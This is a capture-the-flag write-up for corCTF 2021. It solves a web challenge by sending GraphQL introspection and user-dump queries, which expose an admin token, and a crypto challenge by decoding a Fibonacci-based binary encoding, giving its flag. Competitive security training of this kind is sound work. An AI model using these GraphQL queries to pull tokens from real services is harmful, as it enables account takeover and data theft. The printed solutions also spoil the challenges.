# Write up corCTF 2021

![](website.png)

## web/devme

Challenge link [https://devme.be.ax/](https://devme.be.ax/)

### Statement

![](devme/statement.png)

[Source website and devme.html here](devme/devme_files.zip)

### Solution

Using devtool that not give us anything special. Look up on the website, I see the form which allow me to POST something to server:

![](devme/sendEmail.png)

I try registing by (test@gmail.com) and using Burp to see what happen is going on:

![](devme/burp.png)

When I register, the website redirect to "/graphql" and post a query so that sever create new user. And I realize that **graphql** is the problem. It can help me sending a query or retriving the database by the right query.

After studying about graphql, I try posting the below query to see the behind structure of its "graphql":
```grahpql
{
	"query":"query IntrospectionQuery {
		__schema {
			queryType{name}
			types {
				name
				fields {
					name
				}
			}
		}
	}"
}
```

![Result](devme/structure.png)

As you can see, it show me some properties such as query type, type, name, field,.... This is the graphql structure of the website.

My mission is became easily. I think that I need to the data of User to get the admin data and try cheating.

```graphql
{
	"query":"query Query {
		users {
			username
			token
		}
	}"
}
```

![Result](devme/users.png)

I have the admin token <code>"username":"admin","token":"3cd3a50e63b3cb0a69cfb7d9d4f0ebc1dc1b94143475535930fa3db6e687280b</code> and I will write a query to POST to the website so that get the flag!

### Flag

![flag](devme/flag.png)


## crypto/fibinary

### Statement

![](fibinary/state.png)

The challenge has two source code: [enc.py](fibinary/enc.py) and [flag.enc](fibinary/flag.enc)

### Solution

The source code [enc.py](fibinary/enc.py):
```python
fib = [1, 1]
for i in range(2, 11):
	fib.append(fib[i - 1] + fib[i - 2])

def c2f(c):
	n = ord(c)
	b = ''
	for i in range(10, -1, -1):
		if n >= fib[i]:
			n -= fib[i]
			b += '1'
		else:
			b += '0'
	return b

flag = open('flag.txt', 'r').read()
enc = ''
for c in flag:
	enc += c2f(c) + ' '
with open('flag.enc', 'w') as f:
	f.write(enc.strip())
```
The flag.enc:
```10000100100 10010000010 10010001010 10000100100 10010010010 10001000000 10100000000 10000100010 00101010000 10010010000 00101001010 10000101000 10000010010 00101010000 10010000000 10000101000 10000010010 10001000000 00101000100 10000100010 10010000100 00010101010 00101000100 00101000100 00101001010 10000101000 10100000100 00000100100```

The challenge is relate to *Fibonacci* array.

*c2f(c)* function is responsible for encryption. It converts each flag's letter to the binary array (len = 10).

So that I was write a noob script to decrypt the flag.enc ^^

```python
fib = [1, 1]
for i in range(2, 11):
	fib.append(fib[i - 1] + fib[i - 2])

#fib = [1, 1, 2, 3, 5, 8, 13, 21, 34, 55, 89]
enc = "10000100100 10010000010 10010001010 10000100100 10010010010 10001000000 10100000000 10000100010 00101010000 10010010000 00101001010 10000101000 10000010010 00101010000 10010000000 10000101000 10000010010 10001000000 00101000100 10000100010 10010000100 00010101010 00101000100 00101000100 00101001010 10000101000 10100000100 00000100100"
arr = enc.split()
_list = []

def convert(c):
    asc = 0
    for i in range (0, 10, 1):
        if (c[i] == "1"):
            asc = asc + fib[int(10-i)]
        else:
            continue
    return chr(asc)

for i in range(0, len(arr), 1):    
    _list.append(convert(arr[i]))

print("".join(_list))
```

![Result](fibinary/flag.png)

### Flag
>**corCTF{b4s3_4nd_f1bp!113d}**

